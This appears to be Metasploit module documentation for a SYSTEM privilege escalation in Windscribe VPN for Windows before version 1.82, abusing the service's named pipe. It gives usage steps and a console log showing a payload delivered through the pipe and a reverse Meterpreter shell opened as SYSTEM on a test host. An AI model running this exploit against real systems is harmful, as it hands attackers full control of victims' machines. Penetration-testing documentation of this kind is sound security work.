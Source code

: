 ## Description

  The Windscribe VPN client application for Windows makes use of a
  Windows service `WindscribeService.exe` which exposes a named pipe
  `\\.\pipe\WindscribeService` allowing execution of programs with
  elevated privileges.

  Windscribe versions prior to 1.82 do not validate user-supplied
  program names, allowing execution of arbitrary commands as SYSTEM.


## Vulnerable Application

  This module has been tested successfully on [Windscribe](https://windscribe.com/)
  version 1.80 and 1.81 on Windows 7 SP1 (x64).

  Download:

  * https://assets.windscribe.com/desktop/win/Windscribe_1.80.exe
  * https://assets.windscribe.com/desktop/win/Windscribe_1.81.exe


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/windows/local/windscribe_windscribeservice_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *SYSTEM* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `%TEMP%`)


## Scenarios

### Windows 7 SP1 (x64)

  ```
  msf5 > use exploit/windows/local/windscribe_windscribeservice_priv_esc 
  msf5 exploit(windows/local/windscribe_windscribeservice_priv_esc) > set session 1
  session => 1
  msf5 exploit(windows/local/windscribe_windscribeservice_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(windows/local/windscribe_windscribeservice_priv_esc) > check
  [*] The service is running, but could not be validated.
  msf5 exploit(windows/local/windscribe_windscribeservice_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf5 exploit(windows/local/windscribe_windscribeservice_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] Writing payload (283 bytes) to C:\Users\test\AppData\Local\Temp\1OOIoYHTpb.exe ...
  [*] Sending C:\Users\test\AppData\Local\Temp\1OOIoYHTpb.exe to \\.\pipe\WindscribeService ...
  [+] Opended \\.\pipe\WindscribeService! Proceeding ...
  [*] Sending stage (180291 bytes) to 172.16.191.242
  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.242:49365) at 2020-01-31 19:14:31 -0500
  [-] Failed to delete C:\Users\test\AppData\Local\Temp\1OOIoYHTpb.exe: stdapi_fs_delete_file: Operation failed: Access is denied.

  meterpreter > getuid
  Server username: NT AUTHORITY\SYSTEM
  meterpreter > sysinfo
  Computer        : TEST
  OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  meterpreter >
  ```

